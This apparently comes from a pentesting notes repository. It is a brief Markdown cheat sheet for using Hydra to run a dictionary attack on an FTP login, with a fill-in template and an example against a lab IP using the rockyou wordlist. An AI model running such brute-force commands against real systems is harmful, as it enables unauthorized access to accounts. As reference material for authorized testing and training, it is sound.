 # Hydra - FTP

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

### FTP Dictinary Attack:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] ftp://[TARGET-IP]
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.86.86
```
